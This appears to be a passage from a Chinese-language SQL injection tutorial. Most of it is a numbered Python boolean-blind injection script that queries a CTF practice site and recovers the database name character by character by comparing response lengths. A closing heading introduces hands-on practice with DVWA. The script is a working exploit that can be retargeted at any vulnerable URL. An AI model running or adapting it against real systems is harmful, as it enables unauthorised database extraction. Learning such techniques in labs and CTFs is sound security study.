  

布尔盲注脚本：

`

1. import requests  

2. def getDBName(DBName_len):  

3. ​    DBName = ""  

4. ​    success_url = "http://ctf5.shiyanbar.com/web/index_3.php?id=2"  

5. ​    success_response_len = len(requests.get(success_url).text)  

6. ​    url_template = "http://ctf5.shiyanbar.com/web/index_3.php?id=2' and ascii(substr(database(),{0},1))={1}%23"  

7. ​    chars = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'  

8. ​     

9. ​    print("Start to retrieve database name...")  

10. ​    print("Success_response_len is: ", success_response_len)  

11. ​    for i in range( 1, DBName_len + 1):  

12. ​        print("Number of letter: " , i)  

13. ​        tempDBName = DBName  

14. ​        for char in chars:  

15. ​            print("Test letter " + char)  

16. ​            char_ascii = ord(char)  

17. ​            url = url_template.format(i, char_ascii)  

18. ​            response = requests.get(url)  

19. ​            if len(response.text) == success_response_len:  

20. ​                DBName += char  

21. ​                print("DBName is: " + DBName + "...")  

22. ​                break  

23. ​        if tempDBName == DBName:  

24. ​            print("Letters too little! Program ended." )  

25. ​            exit()  

26. ​    print("Retrieve completed! DBName is: " + DBName)  

27. ​     

28. getDBName(5)   

    **0x10 实战篇**

    以DVWA系统来进行讲解，将安全等级调为最低
